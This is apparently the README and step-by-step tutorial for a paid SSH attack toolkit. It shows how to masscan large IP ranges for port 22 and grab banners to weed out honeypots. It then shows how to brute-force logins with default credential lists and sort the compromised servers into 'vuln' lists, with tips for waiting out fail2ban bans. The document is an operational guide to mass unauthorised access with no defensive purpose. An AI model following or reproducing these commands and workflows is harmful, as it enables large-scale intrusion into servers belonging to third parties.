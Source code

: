 INFO:
INFO.TXT
1. ssh2banner is for retriving the banner of the ssh server. The good thing is that you don't even need u/p, thus making this a very good tool of determining if is a proper ssh server
        INPUT FILE = `i`
        1.2.3.4
        3.3.3.3
        4.4.4.4

        OUTPUT
        1.2.3.4:22:SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu
        3.3.3.3:22:SSH-2.0-OpenSSH_3.7.1p2
        4.4.4.4:22:SSH-WHATEVER_BANNER

        EXAMPLE RUN
        ./ssh2banner <FORKS> <PORT> <TIMEOUT> <VIPCODE>

2. bssh2z (brute ssh) is for brute-forcing list of ips with various passwords
        INPUT FILE (list of ips) = `i`
        1.2.3.4
        3.3.3.3
        4.4.4.4

        INPUT FILE (list of user/pass combo) = `p`
        root $BLANKPASS
        admin admin
        user pass

        OUTPUT
        `n` -> nobash,busybox,honeypot,other linux
        root:r0ot:1.2.3.4:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root:r0ot:4.4.4.4:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root:r0ot:5.5.5.5:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root:r0ot:6.6.6.6:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.5

        `v` -> vuln,virtual,good linux
        root::7.7.7.7:22:Linux:SSH-2.0-OpenSSH_6.6:Intel(R) Xeon(R) CPU E5-2670 v2 @ 2.50GHz:3764 2558 1206 0 166 336:vuln
        user:live:8.8.8.8:22:Linux:SSH-2.0-OpenSSH_6.0p1 Debian-4:Intel(R) Core(TM) i5 CPU 760 @ 2.80GHz:6040 1307 4732 0 135 633:vuln
        root::9.9.9.9:22:Linux:SSH-2.0-OpenSSH_7.1:Intel(R) Atom(TM) CPU C2758 @ 2.41GHz:16038 15859 179 0 0 14317:vuln
        root::10.10.10.10:22:Linux:SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u2:ARMv7 Processor rev 2 (v7l):492 281 210 12 47 109:vuln
        root::11.11.11.11:22:Linux:SSH-2.0-OpenSSH_7.1:Intel(R) Atom(TM) CPU C2758 @ 2.41GHz:16038 15859 178 0 0 14317:vuln

        EXAMPLE RUN
        ./bssh2z <FORKS> <PORT> <TIMEOUT> <VIPCODE>

        If you put like 20 ips and 400 passwords and the scan works slow, don't worry, it is a fail2ban protection. It is pointless to finish them in 1 minute, thus you will get banned after the first 5 tries in less then a minute. It will finish it, have patience.


3. ssh2check (checker ssh) is for re-check your already N or V file from bssh2z to know what servers are still online
        INPUT FILE (list of ips) = `list.txt`
        root:r0ot:1.2.3.4:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root:r0ot:4.4.4.4:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root::7.7.7.7:22:Linux:SSH-2.0-OpenSSH_6.6:Intel(R) Xeon(R) CPU E5-2670 v2 @ 2.50GHz:3764 2558 1206 0 166 336:vuln
        user:live:8.8.8.8:22:Linux:SSH-2.0-OpenSSH_6.0p1 Debian-4:Intel(R) Core(TM) i5 CPU 760 @ 2.80GHz:6040 1307 4732 0 135 633:vuln
        root::9.9.9.9:22:Linux:SSH-2.0-OpenSSH_7.1:Intel(R) Atom(TM) CPU C2758 @ 2.41GHz:16038 15859 179 0 0 14317:vuln
        root:r0ot:5.5.5.5:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root:r0ot:6.6.6.6:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root::10.10.10.10:22:Linux:SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u2:ARMv7 Processor rev 2 (v7l):492 281 210 12 47 109:vuln
        root::11.11.11.11:22:Linux:SSH-2.0-OpenSSH_7.1:Intel(R) Atom(TM) CPU C2758 @ 2.41GHz:16038 15859 178 0 0 14317:vuln


        OUTPUT
        `others.txt` -> nobash,busybox,honeypot,other linux
        root:r0ot:1.2.3.4:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root:r0ot:4.4.4.4:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root:r0ot:5.5.5.5:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root:r0ot:6.6.6.6:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.5

        `servers.txt` -> vuln,virtual,good linux
        root::7.7.7.7:22:Linux:SSH-2.0-OpenSSH_6.6:Intel(R) Xeon(R) CPU E5-2670 v2 @ 2.50GHz:3764 2558 1206 0 166 336:vuln
        user:live:8.8.8.8:22:Linux:SSH-2.0-OpenSSH_6.0p1 Debian-4:Intel(R) Core(TM) i5 CPU 760 @ 2.80GHz:6040 1307 4732 0 135 633:vuln
        root::9.9.9.9:22:Linux:SSH-2.0-OpenSSH_7.1:Intel(R) Atom(TM) CPU C2758 @ 2.41GHz:16038 15859 179 0 0 14317:vuln
        root::10.10.10.10:22:Linux:SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u2:ARMv7 Processor rev 2 (v7l):492 281 210 12 47 109:vuln
        root::11.11.11.11:22:Linux:SSH-2.0-OpenSSH_7.1:Intel(R) Atom(TM) CPU C2758 @ 2.41GHz:16038 15859 178 0 0 14317:vuln

        EXAMPLE RUN
        ./ssh2check <FORKS> <PORT> <TIMEOUT> <VIPCODE>

TUTORIAL:
This is a tutorial that will learn you to efficiently scan SSH servers real fast.

#HoneyPot banners     -> SSH-2.0-Twisted and more
#Honeypot Ram or CPU  -> Ram: "7880 7690 189 0 400 5171" ; CPU: "Intel(R) Core(TM)2 Duo CPU E8200 @ 2.66GHz", some  "QEMU Virtual CPU version 1.7.0" but not all
#Good servers banners -> "SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1.2", "SSH-2.0-OpenSSH_6.0p1 Debian-4+deb7u6", "SSH-2.0-OpenSSH_6.6.1" and more, all OpenSSH its posible good
#Nobash banners       -> "SSH-2.0-dropbear", "SSH-2.0-IPSSH-1.10.0", "SSH-2.0-XXXX", "SSH-2.0-Parks", "SSH-2.0-ROSSSH", "SSH-1.99-Cisco-1.25" and more
#Shitty banners       -> "SSH-2.0-RomSShell_4.62", "SSH-1.99-cryptlib", "", and more
#Info: Only for uid0
########################################

password=unlimited
port=22
timeout=15
threads=500
ssSpeed=10
masscan_speed=20000

#########################################

rm -rf input.txt bios.txt i

./masscan $1 -p22 -oL input.txt --max-rate $masscan_speed --open --banners --exclude 255.255.255.255 --exclude 10.0.0.0/8 --exclude 192.168.0.0/16 --exclude 127.0.0.0/8  -sS -Pn -n --randomize-hosts -v --send-eth
./ss $port -a $1 -s $ssSpeed

So we have the bios.txt that containts a list of ips that have port 22 opened it is time to put it to the check with ssh2banner.

(banner ssh will read `i` file, also shuffeling ips)
        cat bios.txt | sort -u | shuf > i
        ./ssh2banner 150 22 10 YOUR_VIPCODE_PASSWORD;

We will use 150 forks (max ssh connection at a time), but you can put whatever number you want(500,1000), be carefull to not get your server banned or in ram/cpu load.

The ssh2banner is way faster then the bssh2z (brute-ssh) because it is just connecting to the server and getting the ssh-banner only without username/passowrd. It will generate an `banners.log` file that will contain data like this :
        1.2.3.4:22:SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu
        3.3.3.3:22:SSH-2.0-OpenSSH_3.7.1p2
        4.4.4.4:22:SSH-WHATEVER_BANNER

You will see a lot of banners, starting from OpenSSH to dropbear or some that you even heared about, like routers and other stuff. This list is perfect to do a brute-SSH attack on it, thus you are 100% that those are servers and not some other applications that are opened on port 22.

Retrieve just the ips from this list with this command :

        rm i;
        cat banners.log | cut -f ":" -f 1 > i;

        if you wish you can scan only dropbear
        cat banners.log | grep "dropbear" | cut -f ":" -f 1 > i;

        or cisco routers
        cat banners.log | grep "cisco" | cut -f ":" -f 1 > i;

Create a nice password file `p` begining with the user/pass combo "root $BLANKPASS", should look like this :
        root $BLANKPASS
        admin admin
        username password
        ...

then do a
        wc -l i p
         233214 i
                 18 p
         233232 total
        Looks ok

Now we will do a brute-SSH attack on those using this command
        ./bssh2z 150 22 10 YOUR_VIPCODE_PASSWORD;

You will see something like this going on:

        Current version : 2.5.1
        Last version : 2.4.1
        Counting PASS
        Counted [18] PASS
        Counting IPS
        Counted [233214] IPS
        There are [4197852] possible combinations
        Starting session 0
        Trying user/pass combo #1->[guest][]
        Combo [9 of 4197852] -> [178.27.29.115] with [guest][]
        Combo [4 of 4197852] -> [220.128.68.129] with [guest][]
        ...

        Duplicate NOBASH [128.54.202.72]
        Duplicate NOBASH [37.48.86.100]
        Combo [53262 of 4197852] -> [67.221.173.53] with [guest][]
        ....



You will see the checking process begin and from time to time check your `n`(non-bash servers) and `v`(good/vuln servers) files, should look like this :

        N
        root:r0ot:1.2.3.4:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root:r0ot:4.4.4.4:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root:r0ot:5.5.5.5:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root:r0ot:6.6.6.6:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51

        V
        root::7.7.7.7:22:Linux:SSH-2.0-OpenSSH_6.6:Intel(R) Xeon(R) CPU E5-2670 v2 @ 2.50GHz:3764 2558 1206 0 166 336:vuln
        user:live:8.8.8.8:22:Linux:SSH-2.0-OpenSSH_6.0p1 Debian-4:Intel(R) Core(TM) i5 CPU 760 @ 2.80GHz:6040 1307 4732 0 135 633:vuln
        root::9.9.9.9:22:Linux:SSH-2.0-OpenSSH_7.1:Intel(R) Atom(TM) CPU C2758 @ 2.41GHz:16038 15859 179 0 0 14317:vuln

        root::10.10.10.10:22:Linux:SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u2:ARMv7 Processor rev 2 (v7l):492 281 210 12 47 109:vuln
        root::11.11.11.11:22:Linux:SSH-2.0-OpenSSH_7.1:Intel(R) Atom(TM) CPU C2758 @ 2.41GHz:16038 15859 178 0 0 14317:vuln

And there you go. More than that, from time to time you can recheck them to see what servers are still online with ssh2check (checker-ssh)

        cat n v > list.txt;
        ./ssh2check 150 22 10 YOUR_VIPCODE_PASSWORD;

        it will output 2 files
        `others.txt` -> nobash,busybox,honeypot,other linux
        root:r0ot:1.2.3.4:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root:r0ot:4.4.4.4:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root:r0ot:5.5.5.5:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.51
        root:r0ot:6.6.6.6:22:UNKNOWN_SYSTEM:SSH-2.0-dropbear_0.5

        `servers.txt` -> vuln,virtual,good linux
        root::7.7.7.7:22:Linux:SSH-2.0-OpenSSH_6.6:Intel(R) Xeon(R) CPU E5-2670 v2 @ 2.50GHz:3764 2558 1206 0 166 336:vuln
        user:live:8.8.8.8:22:Linux:SSH-2.0-OpenSSH_6.0p1 Debian-4:Intel(R) Core(TM) i5 CPU 760 @ 2.80GHz:6040 1307 4732 0 135 633:vuln
        root::9.9.9.9:22:Linux:SSH-2.0-OpenSSH_7.1:Intel(R) Atom(TM) CPU C2758 @ 2.41GHz:16038 15859 179 0 0 14317:vuln
        root::10.10.10.10:22:Linux:SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u2:ARMv7 Processor rev 2 (v7l):492 281 210 12 47 109:vuln
        root::11.11.11.11:22:Linux:SSH-2.0-OpenSSH_7.1:Intel(R) Atom(TM) CPU C2758 @ 2.41GHz:16038 15859 178 0 0 14317:vuln

Happy scanning.

